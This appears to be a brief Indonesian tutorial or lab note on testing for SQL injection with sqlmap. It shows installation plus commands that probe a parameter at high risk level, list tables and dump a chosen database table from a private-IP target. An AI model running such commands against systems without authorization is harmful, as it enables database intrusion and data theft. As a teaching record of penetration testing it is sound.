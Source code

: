 # Pengujian SQL Injection Menggunakan SQLMap
## Instalasi SQLMap menggunakan Homebrew
Lakukan instalasi `brew install sqlmap`
![](/assets/sqlmap/1.png)
## Pengujian SQL Injection menggunakan SQLMap
1. Untuk melakukan pengecekan pada parameter, apakah mengandung vulnerable `sqlmap --url="http://10.151.36.103/?match=1" --level 5 --risk 3 --dbms mysql`
![](/assets/sqlmap/2.png)
2. `sqlmap --url "http://[alamat yang dituju]/?match=1" --dump -D [database yang diinginkan] -T [tabel yang diinginkan]`
3. `sqlmap --url "http://10.151.36.103/?match=1" --tables`


